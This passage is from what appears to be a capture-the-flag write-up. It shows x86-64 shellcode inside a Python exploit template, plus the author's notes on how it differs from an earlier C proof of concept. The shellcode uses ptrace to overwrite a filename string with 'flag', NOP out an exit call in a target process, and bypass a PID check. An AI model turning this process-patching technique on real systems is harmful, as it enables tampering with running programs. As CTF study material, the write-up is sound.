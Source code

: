 ```assembly
syscall

/* change readstory.txt to flag */
mov rdx, {binary.search(b'readstory.txt').__next__()}
mov r10, 0x67616c66
mov rax, {constants.SYS_ptrace}
syscall

/* patch out exit so we get flag after flag */
mov rdx, {addr_exit}
mov r10, 0x9090909090909090
mov rax, {constants.SYS_ptrace}
syscall

add rdx, 2
mov rax, {constants.SYS_ptrace}
syscall

/* patch out even pid check, does not work remotely */
.if {online} == 0
mov rdx, {0x40179d}
mov rax, {constants.SYS_ptrace}
syscall
.endif

mov rdi, {PTRACE_DETACH}
xor rdx, rdx
xor r10, r10
mov rax, {constants.SYS_ptrace}
syscall

jmp $
```
```python
''')

assert(len(payload) < 0x1ff)
```

The above shellcode is the same as the C code POC with the following three exceptions:

1. The `sleep(<=1)` block does not really sleep for one second.  On average it'll sleep for `0.5` seconds.  With a bit more code I could get this to one second, but it was good enough (and is necessary).
2. The `.if {online} == 0` block will patch out the even PID check if testing locally.  This code does not work remotely (actually I think it is safe to run, but you do not get the desired results).
3. The `jmp $`, it just an endless loop, this prevents the parent process from crashing; we need time for the flag to be emitted.

The `assert` is there to make sure the payload does not exceed `0x1ff` bytes.  There's some shitfuckery in `read_input` that overwrites the `0x1ff`th byte.  It can be mitigated if you did have longer code, but there was no need.
